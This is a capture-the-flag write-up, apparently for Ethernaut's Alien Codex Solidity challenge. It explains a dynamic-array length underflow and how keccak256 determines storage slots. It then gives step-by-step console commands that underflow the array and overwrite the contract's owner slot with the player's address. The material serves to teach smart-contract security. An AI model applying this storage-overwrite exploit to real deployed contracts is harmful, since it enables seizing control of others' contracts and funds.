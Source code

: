 Notes before solving:
1. We have bytes32 array that is dynamic. Dynamic array has underflow weakness so if the array is set to 0 by decrementing it we will reach the highest number for a dynamic array.
2. We have a function that will turn contact to true ``make_contact``
3. We have function retract that allow us to pop the top from the array.
4. We have revise function that allow us to replace the inside the array.

Since mappings and dynamic arrays has an unpredictable size, they use Keccak-256 hash computation to find the starting position of the value or the array data.
For dynamic arrays, [the] slot stores the number of elements in the array (byte arrays and strings are an exception, see below). For mappings, the slot is unused (but it is needed so that two equal mappings after each other will use a different hash distribution). Array data is located at keccak256(p) and the value corresponding to a mapping key k is located at keccak256(k . p) where . is concatenation.
![image](https://user-images.githubusercontent.com/73179781/182036668-6defccf8-34d8-47f3-ad8a-a2560275f167.png)


## How we will attack:
1. Call make_contact and turn contact to true.
2. Then we will call retract inorder to underflow and have full control on contract storage.
3. Then we find where the contract owner set and call the revise method to add our address.

## Attack
1. await contract.make_contact()
2. await contract.retract()
3. We will get the length of the array by calling p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"],[1])) .
4. Now we will get the owner address. i = BigInt(2**256) -BigInt(p) . The owner is in the in slot 0 in the bytes array.
5. content = "0x" + '0'.repeat(24) + player.slice(2)  this is the one that we will replace.
6. To switch with the owner contract await contract.revise(i,content) 
